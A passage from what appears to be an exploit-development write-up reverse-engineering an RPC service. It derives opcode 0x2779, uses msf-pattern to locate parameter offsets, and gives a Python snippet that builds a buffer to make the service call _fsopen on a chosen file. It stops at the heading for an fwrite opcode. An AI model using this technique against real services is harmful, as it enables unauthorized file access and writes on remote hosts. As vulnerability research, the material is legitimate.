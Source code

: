 `EAX` = Op Code (i.e., `EDX`) - 0x2710. Therefore, Op Code is 0x2779

<img src="img/Fig6.png" width="300">

### Parameters
`\_fsopen` accept 3 parameters. `msf-pattern` was used to determine the offset of each parameters in our buffer.
mode = "a" (Opens for reading and appending)
shflag = 0x20 (value was determined by taking other `\_fsopen` call as an example)

```python
#file open
mode_offset = 260
shflag_offset = 280
opcode = 0x2779
buf = b"C:\\test.txt\x00"
buf += b"\x42" * (mode_offset - len(buf))
buf += struct.pack("<L", 0x61) # mode: 0x6277 = wb, 0x6272 = rb, a = 0x61
buf += b"\x42" * (shflag_offset - len(buf))
buf += struct.pack("<L", 0x20)
stubdata = struct.pack("<IIII", val, opcode, len(buf), len(buf))
stubdata += buf
fstream = call(dce, 1, stubdata)
print(''.join('{:02x}'.format(x) for x in fstream))
```

## fwrite (0x277d)